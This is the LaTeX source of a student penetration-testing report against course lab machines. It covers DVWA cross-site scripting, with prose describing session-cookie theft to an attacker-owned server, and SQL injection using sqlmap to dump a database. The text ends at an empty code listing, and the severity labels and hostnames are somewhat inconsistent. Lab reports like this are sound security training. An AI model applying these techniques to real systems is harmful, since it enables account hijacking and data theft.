\documentclass{article}
\usepackage{amsmath}
\usepackage{booktabs}
\usepackage{color}
\usepackage{graphicx}
\usepackage{listings}
\usepackage{pgfplotstable}
\usepackage{pgfplots}
\usepackage{siunitx}
\usepackage{tikz}
\usepackage{csvsimple}
\usepackage{draftwatermark}

\SetWatermarkText{\textsc{Confidential}}

\lstset{
  numbers=left,
  numberstyle=\tiny,
  frame=tb,
  tabsize=2,
  columns=fixed,
  showstringspaces=true,
  showtabs=false,
  keepspaces,
  commentstyle=\color{red},
  keywordstyle=\color{blue}
}

\pgfplotsset{compat=newest} % place the legend below the plot
\usepgfplotslibrary{units} % display units nicely

\sisetup{round-mode = places, round-precision = 2}

\title{SAIT 230 - Penetration Testing Report}
%\date{}
\author{Mo Khan}

\begin{document}
\pagenumbering{gobble}
\maketitle
\newpage
\tableofcontents
\newpage
\pagenumbering{arabic}

\section{Executive Summary}

Mo Khan has been contracted to conduct a penetration test against SAIT CPNT-230 provided
virtual machines. The test simulates a malicious attacker with access to the
network in a targeted attack against the hosts identified on the private network.

The following report details the findings and recommendations, intended to be submitted
to the instructor for grading.

\subsection{Project Scope}

The scope of the assessment included penetration testing against the below systems:

\begin{itemize}
  \item bwa.sait230.ca (10.2.1.8)
  \item metasploitable.sait230.ca (10.2.1.1)
  \item tomcat-apache.sait230.ca (10.2.1.6)
  \item ultimatelamp.sait230.ca (10.2.1.3)
\end{itemize}

\subsection{Methodology}

The following methodology was used:

\begin{description}
  \item[Information Gathering] During this phase of the test we identify the hosts on the network. Then we enumerate open ports and services. We attempt to identify operating systems and versions of services running on each of the hosts. We attempt to identify possible vulnerabilities to gain access to hosts or identify information that could help us move to the next phase.
  \item[Passive Intelligence] In this phase we attempt to gather indirect information such as whois information.
  \item[Exploitation] During this phase we attempt to exploit vulnerabilities and/or identify services to reach the highest level of privileges allowable.
  \item[Post Exploitation] We document and report all findings during the previous steps.
\end{description}

\subsection{Tools}

The following tools were utilized to conduct the penetration test:

\begin{description}
  \item[GNU Wget] The non-interactive network downloader.
  \item[Genlist] ping scanner.
  \item[Nessus] is a proprietary comprehensive vulnerability scanner which is developed by Tenable Network Security.
  \item[Nmap] Network exploration tool and security / port scanner.
  \item[WPScan] WordPress Security Scanner by ethicalhack3r.co.uk.
  \item[httpprint] httprint v0.301 (beta) - web server fingerprinting tool.
  \item[ifconfig] system administration utility in Unix-like operating systems for network interface configuration.
  \item[nikto] web server scanner which performs comprehensive tests against web servers for multiple items.
  \item[sqlmap] automatic SQL injection and database takeover tool.
\end{description}

\subsection{Issue Severity Rating}

The issues are rated according to the following severity:

\begin{center}
  \begin{tabular}{| l | l |}
    \hline
    \textbf{Severity} & \textbf{Description} \\ \hline \hline
    High & Issue led to full system compromise. \\ \hline
    Medium & Issue led to partial system compromise. \\ \hline
    Low & Issue led to information disclosure. \\
    \hline
  \end{tabular}
\end{center}

\subsection{Summary of Results}

During testing, the following major items led to compromise of systems and control
of key web applications and user data.

\begin{enumerate}
  \item DVWA Cross Site Scripting
  \item DVWA SQL Injection
  \item Root access to MySQL server
  \item Vulnerable Wordpress Spreadsheet Plugin
  \item Default Tomcat Installation
\end{enumerate}

The following sections details the penetration testing results and provides
recommendations to remediate the issues identified.

\subsection{Technical Summary of Issues}

\begin{center}
  \begin{tabular}{| l | l | | l |}
    \hline
    \textbf{Severity} & \textbf{Issue Title} & \textbf{Recommendation Summary} \\ \hline \hline
    Medium & DVWA Cross Site Scripting & Validate all user input \\ \hline
    High & DVWA SQL Injection & Validate all user input. \\ \hline
    High & Root access to MySQL server. & Disable mysql root account. \\ \hline
    Medium & Vulnerable Wordpress Spreadsheet Plugin. & Disable vulnerable plugin or upgrade. \\ \hline
    High & Default Tomcat Installation & Change default tomcat installation. \\ \hline
    \hline
  \end{tabular}
\end{center}

\newpage
\section{DVWA Cross Site Scripting}

\begin{description}
  \item[Severity] High
  \item[Impact] Full data loss.
  \item[Affected Resources/System] http://bwa.sait230.ca/dvwa/
  \item[Summary] SQL Injection vulnerability
\end{description}

\paragraph{XSS}
In the DVWA web application I found a page called "XSS reflected". 
On this page, there is a textbox where you can enter some text and then 
click on the submit button.

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/dvwa-xss-page.png}
	\caption{XSS Page.}
	\label{fig:xss-page1}
\end{figure}

If you look closely in the Figure~\ref{fig:xss-page1} you can see a 
query string parameter appended to the URL in the address bar.

\newpage
I tampered with the query string parameter to see if I could get
some arbitrary javascript code to execute in the context of this
page.

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/dvwa-xss-page-exploit.png}
	\caption{XSS Page Exploit.}
	\label{fig:xss-page2}
\end{figure}

In Figure~\ref{fig:xss-page2} you can see I was able to hijack the logged
in users session cookie. This allows an attacker to post the logged in
users session cookie to a server that the attacker owns. This would allow
an attacker to log in as any user that opened this page with the specially
crafted URL.

\paragraph{Recommendation}

Validate user input. HTML encode any user input data before rendering.

\newpage
\section{DVWA SQL Injection}

\begin{description}
  \item[Severity] High
  \item[Impact] Full data loss.
  \item[Affected Resources/System] http://bwa.sait230.ca/dvwa/
  \item[Summary] SQL Injection vulnerability
\end{description}

There is a sql injection vulnerability in a web application called DVWA\@.
After logging in to the DVWA application. I changed the security level of the application to low
and found a page called "SQL Injection".

This page contained a single text box used for searching for a specific user by their id.
When you enter a user id and click on submit, this page would send a GET request to 

\begin{lstlisting}[basicstyle=\tiny]
GET http://metasploitable.sait230.ca/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#
\end{lstlisting}

I grabbed my session cookie value by opening the Web Console in my browser.
Then I used javascript to get the document.cookie. The cookie that this server
returns does not mark the cookie as HTTPOnly, making it accessible via javascript.

\begin{figure}[h!]
	
\includegraphics[width=\linewidth]{images/dvwa-sql-injection.png}
	\caption{SQL injection page.}
	\label{fig:sql-injection}
\end{figure}

\newpage
With a valid URL and Session cookie I can now use SQLMap to test out sql injection attacks.
I was able to get a dump of the database exported as csv files.

\begin{lstlisting}[language=Bash,basicstyle=\tiny]
